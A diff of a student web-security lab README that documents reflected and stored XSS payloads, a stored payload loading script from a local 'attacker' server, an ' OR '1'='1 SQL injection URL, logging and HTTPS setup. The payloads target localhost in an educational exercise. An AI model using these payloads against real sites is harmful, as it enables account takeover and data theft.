

Before and after one commit to HDR-2024-2025/laboratoare-sw-ElenaDenisa-Chelarasu, a Markdown page: README.md, the part around the change printed below. Shown: that part at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -58,15 +70,85 @@ SQLite integration tutorial: https://www.sqlitetutorial.net/sqlite-nodejs/
 
-Possible problems and how to solve it:
-```
-Access to fetch at 'http://localhost:5000/api/data' from origin 'http://localhost:4567' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled
-```
+   Example of a malicious URL:
+   ```sh
+   http://localhost:4567/cauta?q=<script>alert('XSS attack!')</script>
+   ```
 
-**Lab6:**
+#### b) Persistent (Stored) XSS
+   The payload is stored in the database and executed for all users accessing a specific page.
 
-URL vulnerabil:
+   Example of a payload injected through the registration form:
+   ```sh
+   <script src="http://127.0.0.1:5000/script.js"></script>
+   ```
+
+
+### 3. Logging
+   The server uses the winston library to log HTTP request information, such as:
+   * Request method (`request.method`)
+
+   * HTTP headers (`request.headers`)
+
+   * URL parameters (`request.args`)
+
+   * Request body content (`request.body` or `request.json`)
+
+   Log file analizer usage:
+
+   ```sh
+   # Show 4xx errors
+   python log_analyzer.py 1
+
+   # Show URL statistics
+   python log_analyzer.py 2
+
+   # Watch logs in real-time
+   python log_analyzer.py 3
+
+   # Specify a different log directory
+   python log_analyzer.py 2 --log-dir /path/to/logs
+   ```
+
+### 4. HTTPS
+   The application is configured to run over HTTPS using the generated certificate.
+
+   Access it at:
+   ```sh
+   https://localhost:4567
+   ```
+
+### 5. SQL Injection
 ```
 http://localhost:4567/cauta?q=' OR '1'='1
 ```
-In acest caz, query-ul devine ```SELECT * FROM users WHERE name = '' OR '1'='1' ``` si ```OR '1'='1'``` este mereu adevarat, deci ne vor fi returnati toti utilizatorii din tabelul users. Pentru a rezolva problema SQL injection, trebuie sa sanitizam datele, de exemplu prin utilizarea Sequelize. Aceasta sanitizare se face si automat cu ajutorul sqlite.
+Here the query becomes ```SELECT * FROM users WHERE name = '' OR '1'='1' ``` and ```OR '1'='1'``` is always true, so this will return all the `users` table entries. To solve this problem we have to sanitise the entry data, using for example Sequelize. This sanitisation is automatically done by `sqlite`.
 
-URL vulnerabil:
+## Running the Servers
+
+1. Start the Node.js Server
+
+   Run the following command to start the main server:
+   ```sh
+   node app.js
+   ```
+
+   The server will be available at:
+   ```sh
+   https://localhost:4567
+   ```
+
+
+2. Start the Python Server (Attacker)
+   ```sh
+   python attacker_server.py
+   ```
+
+The server will receive data and log it in `server.log`.
+
+
+## Usage Examples
+
+### Non-Persistent XSS
+
+* Access the URL:
+  `http://localhost:4567/cauta?q=<script>alert('XSS attack!')</script>`
+
````
Also changed, not shown: other parts of README.md (+72 -55 lines).
